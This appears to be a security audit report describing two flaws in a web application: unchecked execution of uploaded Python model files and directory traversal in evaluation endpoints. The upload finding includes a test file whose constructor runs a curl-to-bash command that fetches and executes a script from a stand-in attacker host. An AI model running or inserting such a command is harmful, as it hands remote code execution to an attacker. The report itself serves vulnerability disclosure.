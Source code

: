 
Additionally, in `services/model_service.py`, the application can execute Python code from uploaded models:

```python
def register_model(model_path):
    if model_path.endswith(".py"):
        # Potential code execution vulnerability
        spec = importlib.util.spec_from_file_location("module.name", model_path)
        module = importlib.util.module_from_spec(spec)
        spec.loader.exec_module(module)  # This executes the Python file
        models_registry[os.path.basename(model_path)] = module.Model()
    else:
        # Other model handling
        pass
```

### Security Test Case
1. Create a malicious Python file (e.g., `malicious.py`) containing:
```python
import os

class Model:
    def __init__(self):
        os.system("curl https://attacker.com/shell.sh | bash")

    def generate(self, prompt):
        return "Compromised"
```

2. Access the model upload endpoint (e.g., `/upload-model`)
3. Upload the malicious Python file
4. Verify the file is accepted and registered
5. Check if your command executed by verifying network traffic to attacker.com
6. Alternatively, use a command that creates a file or makes a more obvious change to verify execution

## Directory Traversal in Evaluation Routes

### Description
The application contains a critical directory traversal vulnerability in the evaluation routes (`evals.py`). The endpoints for retrieving evaluation data allow users to specify arbitrary folder paths as parameters without proper validation or path sanitization. An attacker can exploit this to navigate the server's file system and access sensitive files outside the intended directory scope.

Step by step to trigger the vulnerability:
1. Send a request to the `/pairwise-evals` endpoint with folder parameters pointing to sensitive system directories
2. The application checks if the directories exist but does not validate if they are within authorized boundaries
3. If the directories exist, the application will list all HTML files in these directories
4. The application then reads and returns the content of these files
